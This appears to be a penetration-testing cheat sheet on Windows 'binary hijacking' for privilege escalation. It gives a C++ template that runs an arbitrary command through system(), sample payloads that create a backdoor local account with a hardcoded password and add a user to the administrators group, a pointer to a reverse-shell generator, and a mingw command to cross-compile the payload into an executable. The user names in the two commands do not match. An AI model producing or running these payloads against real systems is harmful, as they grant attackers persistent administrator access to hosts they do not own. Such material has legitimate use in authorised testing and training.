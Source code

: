 ```yaml
---
title: Binary Hijacking
description: Inspect client foothold in order to perform Client side attacks
tags:
  - Exploitation
  - Windows
  - Privilege Escalation
---
```


## Generating executable from C++

```cpp 
#include <stdlib.h>

int main ()
{
  int i;
  
	// PAYLOAD EXAMPLE
	// ADD USER : "net user rootking password123! /add" / "net localgroup administrators cvericel /add"
	// REV SHELL : Use /opt/psh-encode-revshell.py
  i = system ("PAYLOAD");
  
  return 0;
}
```

## Payload example

+++ Create new admin user
```cpp
i = system ("net user rootking password123! /add");
i = system ("net localgroup administrators cvericel /add");
```
+++ Reverse shell
[!ref icon=":rocket:"](https://www.revshells.com)
+++

## Cross-Compile the C Code to a 64-bit application

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```